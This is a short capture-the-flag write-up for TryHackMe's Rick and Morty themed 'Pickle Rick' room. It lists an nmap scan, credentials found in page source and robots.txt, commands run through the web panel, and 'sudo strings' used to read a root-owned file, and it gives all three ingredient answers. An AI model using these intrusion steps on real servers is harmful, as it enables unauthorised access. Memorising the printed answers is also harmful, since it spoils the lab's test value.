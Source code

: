 # TryHackMe challenge

## Pickle Rick

> _tihawk | May 13, 2021_

----------------------------------------

### TASK 1. Pickle Rick 

<p style="text-align:center;"><img src="https://i.imgur.com/o9pyhyU.jpg" style="width:161.484px;height:161.484px;" /><br /></p><p style="text-align:center;">This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will<span style="font-size:1rem;"> help Rick make his potion to transform himself back into a human from a pickle.</span></p>

----------------------------------------

### QUESTIONS:

----------------------------------------

1. <p>Deploy the virtual machine on this task and explore the web application.</p><p>What is the first <span style="font-size:1rem;">ingredient Rick needs?</span></p>

```bash
export IP=10.10.241.78

nmap -sC -sV -vvv -oN nmap/initial $IP
```

```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

```bash
# robots.txt

Wubbalubbadubdub
```
```
http://10.10.241.78/login.php
```

`strings Sup3rS3cretPickl3Ingred.txt`

```
mr. meeseek hair
```

2. <p>Whats the second ingredient Rick needs?<br /></p>

`strings /home/rick/second\ ingredients`

```
1 jerry tear
```

3. <p>Whats the final ingredient Rick needs?<br /></p>

`sudo -l`
`sudo strings /root/3rd.txt`

```
fleeb juice
```

